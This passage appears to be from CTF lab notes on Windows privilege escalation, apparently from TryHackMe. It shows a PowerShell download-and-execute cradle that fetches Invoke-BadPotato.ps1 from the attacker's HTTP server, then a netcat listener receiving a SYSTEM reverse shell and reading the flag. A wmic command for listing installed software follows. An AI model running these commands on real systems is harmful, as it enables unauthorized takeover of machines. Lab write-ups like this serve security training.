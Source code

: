 ```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/PowerSharpPack/PowerSharpBinaries]
└─$ ls|grep potato -i
Invoke-BadPotato.ps1

┌──(kali㉿kali)-[/opt/sectools/powershell/PowerSharpPack/PowerSharpBinaries]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
PS C:\windows\system32\inetsrv> iex(new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-BadPotato.ps1")

PS C:\windows\system32\inetsrv> Invoke-BadPotato -Command "C:\Programdata\shell.exe"
```

Received shell

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.130.8] 50052
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\windows\system32\inetsrv>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}
```

> THM{SEFLAGPRIVILEGE}

## Abusing vulnerable software
---
### Unpatched Software

You can use the `wmic` tool to list software installed on the target system and its versions

```bash
wmic product get name,version,vendor
```

### Case Study: Druva inSync 6.6.3

Walkthrough at GSS: [[GSS/metasploit#手動(不用metasploit)#Privilege Escalation]] 

### Questions
